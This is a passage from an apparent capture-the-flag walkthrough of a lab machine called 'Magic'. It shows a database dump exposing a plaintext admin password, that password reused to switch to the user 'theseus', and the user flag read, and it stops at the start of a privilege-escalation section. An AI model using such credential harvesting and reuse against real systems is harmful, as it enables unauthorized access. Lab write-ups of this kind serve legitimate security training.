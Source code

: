 ```bash
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
mysqldump: Got error: 1044: Access denied for user 'theseus'@'localhost' to database 'iamkingtheseus' when selecting the database
```

We still get an error but we don't really care as we now have a new `password` from the tables regardless. Let's try to log on as `theseus` with this password

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ cd
cd
theseus@ubuntu:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
theseus@ubuntu:~$ cat user.txt
cat user.txt
0e...........................c0

```

# Priviledge Escalation

## Sysinfo

After some digging you encounter `sysinfo` which isn't native to linux but is a custom programm that outputs the same as the following:
